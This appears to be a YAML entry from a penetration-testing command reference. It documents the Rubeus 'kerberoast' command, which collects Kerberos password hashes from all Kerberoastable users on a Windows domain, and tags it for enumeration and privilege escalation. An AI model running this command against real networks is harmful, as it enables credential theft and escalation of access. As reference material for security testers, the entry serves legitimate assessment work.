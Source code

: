 ```yaml
---
description: |
  Get Kerberos password hashes from all Kerberoastable users

  Command Reference:


command: |
  Rubeus.exe kerberoast
items:
  - Shell
target: |
  - Windows_target
OS:
  - Windows
environment: |
  - Local
  - Network
command_types:
  - Host_Enumeration
  - Privilege_Escalation
services:
  - Kerberos
references:
  - https://github.com/GhostPack/Rubeus
---
```

